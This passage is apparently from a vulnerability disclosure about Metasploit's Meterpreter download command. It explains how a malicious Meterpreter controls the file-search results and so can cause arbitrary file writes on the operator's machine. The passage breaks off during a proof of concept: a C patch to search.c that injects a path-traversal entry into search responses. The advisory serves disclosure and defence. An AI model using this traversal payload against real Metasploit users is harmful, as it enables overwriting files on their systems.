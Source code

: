 It is clear that Meterpreter controls the entirety of the contents of the hash
named `files` which is returned to consumers of `File.search()`. The only
filtering/sanitisation that is done is to remove a single trailing backslash
from "path" values.

Picking up where we left off in `cmd_download`:

```ruby
      # <... SNIP ...>
      files = client.fs.file.search(src, glob, recursive)

      if !files.empty?
        print_line("Downloading #{files.length} file#{files.length > 1 ? 's' : ''}...")

        files.each do |file|
          src_separator = client.fs.file.separator
          src_path = file['path'] + client.fs.file.separator + file['name']
          dest_path = src_path.tr(src_separator, ::File::SEPARATOR)

          client.fs.file.download(dest_path, src_path, opts) do |step, src, dst|
            print_status("#{step.ljust(11)}: #{src} -> #{dst}")
            client.framework.events.on_session_download(client, src, dest) if msf_loaded?
          end
        end
      # <... SNIP ...>
```

The `files` hash, the contents of which are controlled by Meterpreter, is
iterated over. Files are downloaded to locations as per `path` elements in the
`files` hash, leading to an arbitrary file write condition.

### POC

1\. Patch the Windows Meterpreter source code to produce a malicious Meterpreter

We will produce a malicious Meterpreter that returns malformed responses to
Metasploit.

Note that the patching and execution of a modified Meterpreter is just one
method by which the vulnerability can be triggered. Importantly, exploitation
does _not_ require the victim's Metasploit Framework to be modified. The
vulnerability is within Metasploit itself.

To trigger the bug, Meterpreter needs to respond to `stdapi_fs_search` requests
with malicious results. We will patch Meterpreter to append a hardcoded
malicious entry to responses.

Patch the `request_fs_search` function within
`metasploit-payloads/c/meterpreter/source/extensions/stdapi/server/fs/search.c`
as follows:

```text
diff --git a/c/meterpreter/source/extensions/stdapi/server/fs/search.c b/c/meterpreter/source/extensions/stdapi/server/fs/search.c
index aa53e4f..5027a7f 100644
--- a/c/meterpreter/source/extensions/stdapi/server/fs/search.c
+++ b/c/meterpreter/source/extensions/stdapi/server/fs/search.c
@@ -859,10 +859,12 @@ DWORD request_fs_search(Remote * pRemote, Packet * pPacket)
                {
                        dwResult = search(&WDSInterface, NULL, &options, pResponse);
                }
        }

+       search_add_result(pResponse, L"c:\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\tmp", L"doot", 0);
+
        if (pResponse)
        {
```